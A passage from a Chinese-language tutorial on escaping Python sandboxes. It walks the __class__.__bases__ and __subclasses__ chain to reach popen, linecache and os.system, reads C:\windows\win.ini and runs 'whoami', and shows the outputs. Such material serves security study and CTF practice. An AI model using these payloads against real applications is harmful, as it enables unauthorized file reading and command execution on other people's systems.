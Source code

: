 先来读取一下文件，C盘下的win.ini文件

```none
"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__
```

![image-20200421162023248](assets/20200424150434.png)

从中查找是否有关于文件读取的方法，比如open，file函数。在最后找到一个popen函数。

```none
"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__['popen']("C:\\windows\\win.ini").read()#如果这里会报错添加__builtins__"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__.__builtins__['popen']("C:\\windows\\win.ini").read()
```

如果想直接在终端显示出来

```none
"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__['popen']("type C:\\windows\\win.ini").read()
```

![image-20200423141850480](assets/20200424150436.png)

在python2中可以使用如下形式读取文件的第一行，在python2中前面是否字符串还是元组或者字典对后面类的查找有不一样的结果。

```none
().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['linecache'].getline("C:\\windows\\win.ini",1)
```

执行命令

```none
>>> ().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['linecache'].os.system('whoami')misaki\user
```

但是python2如果使用字符串的形式，会报如下错误，因为`__bases__`获取的并不是object类

```none
>>> "".__class__.__bases__[0].__subclasses__()[59]Traceback (most recent call last):  File "<stdin>", line 1, in <module>IndexError: list index out of range
```
